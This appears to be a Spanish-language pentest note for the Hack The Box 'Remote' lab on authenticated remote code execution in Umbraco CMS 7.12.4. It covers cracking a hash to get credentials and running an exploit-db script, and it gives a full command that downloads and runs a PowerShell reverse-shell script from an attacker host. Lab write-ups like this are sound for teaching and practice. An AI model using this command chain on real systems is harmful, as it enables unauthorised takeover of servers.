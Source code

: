 ## DESCRIPTION

Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated).

![[Pasted image 20230228210603.png]]

#### Mas información
* https://fwhibbit.es/htb-writeup-remote

## EXPLOITATION

1. Para explotar esta vulnerabilidad necesitamos estar autenticados, en este ejemplo ha sido posible obtener de un directorio montado por nfs (podría ser smb o cualquier otro) la base de datos Umbraco.sdf -> De la que se ha obtenido un hash que ha sido posible crackearlo con hashcat.

2. Usamos el exploit: aspx/webapps/49488.py

![[Pasted image 20230228205417.png]]

3. Ejecutamos (levantamos un server http con Invoke-PowershellTcp antes)

```
python3 49488.py -u <<usuario>> -p <<contraseña>> -i '<<URL BASE>>' -c <<commando a ejecutar>>

#Ejemplo reverse shell con Powershell
python3 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "iex(new-object net.webclient).downloadstring('http://10.10.14.20/Invoke-PowerShellTcp.ps1')"
```

![[Pasted image 20230228205722.png]]

## MACHINES

* Hack The Box: Remote
